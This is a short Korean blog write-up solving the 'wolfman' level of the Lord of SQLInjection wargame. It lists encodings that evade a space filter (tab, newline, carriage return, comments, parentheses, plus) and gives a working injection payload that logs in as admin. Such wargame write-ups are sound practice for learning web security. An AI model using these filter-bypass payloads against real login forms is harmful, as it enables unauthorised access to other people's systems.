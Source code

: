```yaml
---
title: "[ Lord of SQLInjection ] wolfman"
date: 2023-03-24T06:23:03.561Z
categories: ['Wargame', 'Lord of SQLInjection']
tags: ["los","web"]
---
```


![](/images/6ccbab68-a4c7-44ba-98ef-b5df4e303d64-image.png)

<br>
<br>

### **문제 분석**
---
1. 공백을 필터링 하고 있다.
2. id가 admin이면 문제를 해결할 수 있다.

<br>
<br>

### **문제 풀이**
---

공백은 다음과 같이 우호할 수 있다.

* Tab : %09
* Line Feed(\n) : %0a
* Carrage Return(\r) : %0d
* 주석 : /**/
* 괄호 : ()
* 더하기 : +

<br>

```sql
?pw=aaa'%0aor%0aid='admin'%23
```

![](/images/a1c53cdb-a6ee-49b2-ac8e-da4805026b24-image.png)
